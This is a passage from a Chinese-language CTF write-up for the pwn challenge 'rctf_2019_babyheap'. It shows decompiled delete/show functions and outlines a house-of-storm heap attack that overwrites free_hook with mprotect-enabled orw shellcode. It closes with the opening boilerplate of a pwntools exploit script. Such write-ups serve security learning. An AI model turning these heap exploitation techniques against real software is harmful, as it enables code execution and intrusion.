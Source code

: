 	  v2 = __readfsqword(0x28u);
	  printf("Index: ");
	  v1 = get_int();
	  if ( v1 <= 0xF && *(ptrs + 2 * v1) )
	  {
	    free(*(ptrs + 2 * v1));
	    *(ptrs + 2 * v1) = 0LL;
	    *(ptrs + 4 * v1 + 2) = 0;
	    puts("Delete success :)");
	  }
	  else
	  {
	    puts("Invalid index :(");
	  }
	  return __readfsqword(0x28u) ^ v2;
	}
### show函数

	unsigned __int64 show()
	{
	  unsigned int v1; // [rsp+4h] [rbp-Ch]
	  unsigned __int64 v2; // [rsp+8h] [rbp-8h]
	
	  v2 = __readfsqword(0x28u);
	  printf("Index: ");
	  v1 = get_int();
	  if ( v1 <= 0xF && *(ptrs + 2 * v1) )
	    puts(*(ptrs + 2 * v1));
	  else
	    puts("Invalid index :(");
	  return __readfsqword(0x28u) ^ v2;
	}

### 思路
看了大佬的博客[rctf_2019_babyheap](https://blog.csdn.net/weixin_44145820/article/details/105709145)，这里对其进行详细的解析。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c2a49de2eb0a492d882fd2f865cb3fd9.png)
程序禁用了fastbin，且能申请最大为0x1000大小的chuck，可以使用house of storm，修改free_hook的地址为shellcode，执行shellcode，这里我们需要用orw来写shellcode，并且在这之前需要用mprotect函数修改free_hook段为可读可写可执行权限。

## 调试过程
先把前面的写好

	# coding=utf-8
	from pwn import *
	#sh = remote("node4.buuoj.cn", 29278)
	sh = process('./rctf_2019_babyheap')
	context(log_level = 'debug', arch = 'amd64', os = 'linux')
	elf = ELF("./rctf_2019_babyheap")
	libc = ELF('../../libc-2.23.so--64')
	def dbg():
	        gdb.attach(sh)
	        pause()
	